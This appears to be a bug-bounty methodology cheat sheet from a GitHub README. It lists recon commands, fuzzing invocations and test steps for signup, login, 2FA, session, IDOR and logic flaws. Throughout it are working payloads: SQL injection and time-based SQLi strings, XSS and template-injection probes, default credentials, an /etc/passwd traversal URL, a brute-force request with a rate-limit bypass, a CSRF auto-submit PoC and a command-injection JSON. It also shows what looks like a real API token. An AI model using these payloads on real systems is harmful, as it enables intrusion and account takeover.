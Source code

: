 <details>
 <summary> Subdomain enumeration </summary>
    
     https://securitytrails.com/
    
    https://subdomainfinder.c99.nl/
    
    https://shrewdeye.app/ 
    
    
    # subfinder -d ~~mars.com~~ -all --recursive  -o subs.txt
  
    
   
    # echo ~~mars.com~~ | assetfinder --subs-only >> subs.txt
    
    
    after collecting all subdomains in subs.txt then let's remove duplicate 
    # cat subs.txt | anew >> allsubs.txt
    # rm subs.txt
</details>

-----------------------------------------------------------------------------

<details> 
## <summary>signup vulnerabilities</summary>
    
    0- check in login page or register page http or https 
    (insecure data transfer ) 
    
    1- if there is no verification code or confirmation then 
    signup with admin@~~site.com~~ and report pre-account takeover vulnerability 
    
    2- a- create account with hacker@gmail.com for example 
    	 b- confirmation will reach you 
    	 c- don't click on it 
    	 d- login to your account and change the email to victim@gmail.com 
    	 e- go back the link in step b and click on it 
    	 f- if the victim@gmail.com was verified successfully then 
    	 (misconfiguration lead to verification bypass  vulnerability) 
    
    3- while registertion put xss payloads inside username , name ....
    
    4- create account with victim@gmail.com 
    	- don't verify the account and don't click on verification link 
    	- login to the site if you can 
    	- go to settings and see if there is 2 factor authentication 
    	- enable 2 factor authentication without confirming account 
    	- report vulenrability (enable 2fa without confirmaiton lead to pre-account tkaeover)
    
    5- create account with victim@gmail.com ,  don't click on the link
    	- login to victim@gmail.com 
    	- change the email address to hacker@gmail.com 
    	- click on confimation link send to your email hacker@gmail.com 
    	- go back and change email to victim@gmail.com and observe it was verified succcessfully
    	(verification bypass )
    	 
</details>

-----------------------------------------------------------------------------


<details>
## <summary>login vulnerabilities </summary>

    ```
	 1- login over http not https 	( insecure data transfer )
	
	 3- try default credentials (test:test) (admin:admin) (admin:password) (kali:kali) (admin:123)
	  (admin:default) (root:root) (root:toor) (admin:kali) (kali:root) (admin:123456789)
	
	 4- try to inject sql injection in username as admin' or 1=1; -- -
	
	 5- try to make response manipulation  to bypass login page
	
	 6- use the request and send it to sqlmap to test if there is sql injection or not
	
	 7- try to inject xss payloads in username as <svg/onload=confirm()>
	
	 8- try to inject template injection inside username as {{9*9}} and if printed 81 then vulnerable to template injection
	
	 9- view source code of the page from CTRL+U to see if leaked credentials

 </details>

-----------------------------------------------------------------------------



  <details>
## <summary>reset password vulnerabilities</summary>
    
    ```
    check link of reset password in email if http not https
    check reset request code can be leaked in request or response
    no rate limit (Email bombing)
    ------------------------------------
    1- ask reset password (from out) don’t press on it ⇒ 
    2- login to account ⇒ change the email and verify ⇒ click on reset link
    3- if password changed through reset password link (bug)
     -----------------------------------
    1- ask reset password (from out) don’t press on it ⇒
    2- login to account ⇒ change the password ⇒
    3- click on reset link ⇒ if password changed through reset password link (bug)
    --------------------------------------
    1- reset the password or ask for reset code  
    2- don't click or reload the page but go to /profile or /account
     directly and see if you can access
     -------------------------------------
     brute force otp 
     --------------------------------------
     reset password does not end live sessions 
     
     
    ```
</details>

-----------------------------------------------------------------------------


<details>
## <summary>session vulnerabilities</summary>
  	
	
	1- login to your account with firefox and chrome
		- change the password in firefox 
		- observe the account in chrome is still logged in and didn't logout
		- Broken session Management 
	
	2- login to your account with firefox and chrome 
		- enable 2FA in firefox 
		- reload the page in chrome and observe session is still valid 
	
	3- login to your account and update anything 
		-  intercept the request with burpsuite 
		- send the request to repeater
		- logout from your account 
		- use the request in repater to update and if still valid  (vulnerability)
	
	4- ask for reset password 
		- don't click on the link reached you 
		- login with your username and password 
		- change the password of the email 
		- logout from your account and then use the link in step 1 
		- if still valid then (Vulnerability)
	
	5-logout from your account 
		- click on (Alt+Left-arrow) button or <--
		- observe the session and profile data is still found 
		- broken cache vulnerability
	
	6- when updating email address 
		- check if OTP is sent to existing email not the new email 
		- broken function lead to verification bypass
	
	7- create account with email A => victim 
		- update the email to B => hacker then verify it -> vierfy your account 
		- update email back to A => victim 
		- if shown as verified then vulnerability 
	
	8- verifiaction bypass 
		- account with victim@gmail.com => don't verify it 
		- update account email to hacker@gmail.com
		- once you clicked the link , if verified victim@gmail.com then vuln  
	
</details>

-----------------------------------------------------------------------------


<details>
	<summary>IDOR</summary>
	
    1- Look for id everywhere
    
    2- Play with hash/encoded values
    
    3- Change The ID's in the request 
    
    4- Upload the profile photo for another user
    
    5- Try change/View data of another user
    
    6- Do something with your email then change it in Burp

    7- Add parameter IDs to requests that don’t have them 

    8- Try replacing parameter names

    9- Try changing the requested file type 
    	GET /user_data/2341 --> 401 Unauthorized
	GET /user_data/2341.json --> 200 OK
    
    10- Try using an array {“id”:19} → {“id”:[19]}

    11- Wildcard ID /api/users/*

    12- check for session cookies if has httponly flag

    13- use the inspector of Burp Repeater to play with id's

    14- use https://jwt.io

    15- create two accounts and save both jwt data and try change between them

    16- detect each cookie and see where it being used

    17- Gather POST & GET and test every CRUD

    18- 

 
  
</details>

-----------------------------------------------------------------------------


<details>
	<summary>RCE</summary>

	1- Injection in json file 
 		{
   		   "username":" `touch ayfile.txt` ",
		   "password":"test"
		}
  	We establish a connection using ntcat then inject command in the json to get this connection
     --------------------------------------------------------------------------------------------------
     2- 

     
</details>

-----------------------------------------------------------------------------



<details>
	<summary>Broken Access Control</summary>

	1- 
 
</details>


-----------------------------------------------------------------------------


<details>
	<summary>Logic Bugs</summary>
	
    1- Try change the price or quantity of item
    
    2- Multiple booking for one room
    
    3- Place order without verify stock level
    
    4- Use coupons or bounus more than one time
    
    5- Check the difference bettween Front-end & Burp request
    
    6- Try creating more than one from the same block 

    7- Check for all posible IF statements and try to bypass it

    8- A user gains access to restricted features they shouldn't have access to.

    9- Try access files after deletion using the link of this file 

    10- Make changes in the source code disabled -> enabled / hidden -> flex

    11- Delete comment with report https://shahjerry33.medium.com/business-logic-errors-a-new-look-3b18d9c2a12f

    12- 
      
		
</details>

-----------------------------------------------------------------------------


<details>
	<summary>Race Condition</summary>

    1- 
 
</details>

-----------------------------------------------------------------------------


<details>
	<summary>Rate Limit</summary>

 	rate limit 
	1- no rate limit on login page 
	2- no rate limit on internal password
	3- no rate limit on sending reset password link 
	4- no rate limit on OTP or 2FA => account takeover
	5- no rate limit on contact us page 
	6- no rate limit on comments 
	7- no rate limit on reports of comments
	8- no rate limit on port 22
 	9- no rate limit on create users account lead to massive accounts created
	
	------------
	bypass rate limit by adding headers 
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	------------------------------------------
	POST /login.php HTTP/1.1
	Host: target.com
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	
	username=admin&password=$fuzz$
	-------------------------------------------
	429 => 403 
	bypass rate limit 
	
	ffuf -u https://example.com -w wordlist.txt --data "username=admin&password=FUZZ"  -H "X-Forwarded-For: 127.0.0.1" -H "X-Forwarded-For: 127.0.0.1"`
	
	403 


</details>

-----------------------------------------------------------------------------


<details>
## <summary>hacking WordPress</summary>
    
    
    wpscan --url [https://target.com](https://target.com/) --disable-tls-checks --api-token zBsi404GGCMKGzTraiEsSsQsFXCsUVWmaDUsn3EPuKc -e at -e ap -e u --enumerate ap --plugins-detection aggressive --force
    wordpress usernames exposure :
    /wp-json/wp/v2/users
    /author-sitemap.xml
    /wp-content/debug.log
    /wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
    	
    /wp-login.php?action=register
    /wp-json/?rest_route=/wp/v2/users/
    /wp-json/?rest_route=/wp/v2/users/n

</details>

-----------------------------------------------------------------------------


<details>
## <summary>Javascript Analysis</summary>
    
    1- use mantra to get api , passwords , keys ...
     cat js.txt | mantra  | tee -a mantra.txt
    2- use nuclei to search for secrets 
     nuclei -l js.txt -t nuclei-templates/http/exposures/ -o nucleijs.txt
    
    if found google api key then use tool google.sh  and see if api valid or not
    google.sh AIz.............

	
 	- wayback
	- gospider
	- katana
	=> allurls.txt
	
	1- Use Mantra => for api keys
	
	2- Use jsluice => for secrets and urls =>  jsluice urls player.js
						     jsluice secrets player.js
	 for i in $(ls);do jsluice secrets $i;done
	
	3- Use nuclei  => nuclei-tempates/http/exposures/
	 nuclei -l js.txt -t /root/nuclei-templates/http/exposures/ -mhe 4
	4- analyze the code with js beaty in visual studio code 


</details>

-----------------------------------------------------------------------------


<details>
	<summary>PHP</summary>
</details>

-----------------------------------------------------------------------------


<details>
	<summary>2FA</summary>
			
		1- check 000000 - 123456
		2- check null 
		3- reuse previous OTP	(used one )
		4- reuse code of another account (valid)
		5- No rate limit on 2FA	=>> 
		6- check if exposed code in response
		7- bypass it by reset password link
			- enable 2fa 
			-  logout 
			- reset password => then click on the link 
			- if you got into directly then vulnerability 
		
		8- bypass it by 0-auth google 	=> 2fa 
			1- login 
			2- enable 2fa 
			3- login with google => if you got into directly then (vulnerability) 
		
		9- No rate limit on sending 2FA 
		10- response manipulation => 403 Forbidden => 200 OK 
						false 	=> true
						0	=> 1
						failed 	=> successful 
		11- bypass 2fa by the next step 
		
		12- enable 2fa without email verification lead to pre-account takeover
		13- enabling 2fa does not end another sessions 
		change password 
	
</details>

-----------------------------------------------------------------------------



<details>
<summary>  Subdomain takeover </summary>
    
    # subzy run --targets subs.txt --hide_fails --vuln  | grep -v -E "Akamai|xyz|available|\-"
    if you found any vulnerability then search on how to takeover subdomain 
</details>
    
-----------------------------------------------------------------------------


  <details>       
## <summary>httpx</summary>
    
    to see the working sites 
    # cat allsubs.txt | httpx -o httpx.txt
    # cat httpx.txt | httpx -mc 200 -o httpx200.txt    
    1- use smuggler to check request smuggling vulnerablitiy 
    # cat httpx.txt | smuggler.py | tee -a smuggler.txt
</details>

-----------------------------------------------------------------------------


<details>
## <summary>dirsearch and ffuf</summary>
    
    1- if you need to fuzz all the file of urls httpx.txt
    # dirsearch -l $(pwd)/httpx.txt -i 200  -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json
    2- if you need to fuzz specific site 
    # dirsearch -u ~~https://mars.com~~  -i 200  -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json
    3- you can use ffuf and wordlist of file names from google 
    # ffuf -u ~~https://mars.com~~/FUZZ -w ~~wordlist.txt~~  -mc 200 
    
    advanced mode of ffuf to bypass rate limit and firewall
    # ffuf -u ~~https://mars.com~~/FUZZ -w wordlist.txt -H "X-Forwarded-For: 127.0.0.1"
    -H "X-Forwarded-Host: 127.0.0.1" 
    
    to fuzz in two places with two files 
    # ffuf -u https://mars.com/FUZZ/AGAIN  -w list1.txt:FUZZ  -w list2.txt:AGAIN
</details>

-----------------------------------------------------------------------------


<details>
## <summary>Gather urls</summary>
    
    1- gather urls with katana
    # katana -list httpx.txt -o katana.txt
    2- gather urls with waybackurls
    # cat httpx.txt | waybackurls >> wayback.txt
    3-  use gospider 
    # gospider -S httpx.txt | sed -n 's/.*\(https:\/\/[^ ]*\)]*.*/\1/p' >> gospider.txt
    4- gather all files in one file and remove duplicate 
    # cat katana.txt wayback.txt gospider.txt >> urls.txt
    5- remove duplicate with anew 
    # cat urls.txt | anew >> allurls.txt 
    # rm urls.txt
    6- get javascript files in js.txt
    # cat allurls.txt | grep -E "\.js" >> js.txt
    7- get php files in php.txt
    # cat allurls.txt | grep -E "\.php$" >> php.txt
 </details>   
    	

-----------------------------------------------------------------------------



<details>
## <summary>check sql injection in php</summary>
    
    1- first let's gather parameters 
    # arjun -i php.txt | tee -a parameters.txt
    2- after knowing parameters like id then full url would be 
    https://example.com/file.php?id=*
    3- use sqlmap 
    # sqlmap -u "~~https://example.com/file.php?id=*~~" --dbs --banner --batch --random-agent
    
 </details>   


-----------------------------------------------------------------------------


    
<details>
## <summary>SQLI</summary>

    id = 1'XOR(if(now()=sysdate(),sleep(2*2),0))OR'

</details>


-----------------------------------------------------------------------------

<details>
	<summary>XSS</summary>

 
	
	dalfox url "https://target.com/?q=search" -o dalfox_xss.txt
	dalfox file allParam.txt --waf-evasion --user-agent 'Mozilla/5.0 (x11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 			Safari/537.36' --proxy 'http://127.0.0.1:8080' --timeout 30 -b 'payload from xss.report' -o xssProbability.txt --deep-domxss 
	
	
	
	
	paramspider --domain domain.com
	paramspider --domain https://www.domain.com --exclude woff,css,png,svg,jpg --output t.txt
	
	echo "sub.domain.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | sort -u | dalfox pipe
	
	
	cat domain.txt | kxss | grep "\" ' < >" | tee kxss.txt
	
	cat domain.txt | kxss
</details>

-----------------------------------------------------------------------------

<details>
	<summary>CSRF</summary>

	poc: 
		 <html>
		  <body>
		    <form action="https://redacted.com/profile/edit” method="POST">
		      <input type="hidden" name=“first_”name value=“Attacker” />
		    </form>
		    <script>
		      document.forms[0].submit();
		    </script>
		  </body>
		</html>

	=================================================
 	
  	1- Remove the token and leave the parameter empty
  	2- Try use another user CSRF token
   	3- Change the request method to get and remove the token
    	4- Add Ayhaga to the real CSRF token 
     	5- Dynamic chars in CSRF token manipulate
	6- try delete referrer
 	7- Referrer: https://target.com/https://evil.com
  	8- 

       

 
</details>



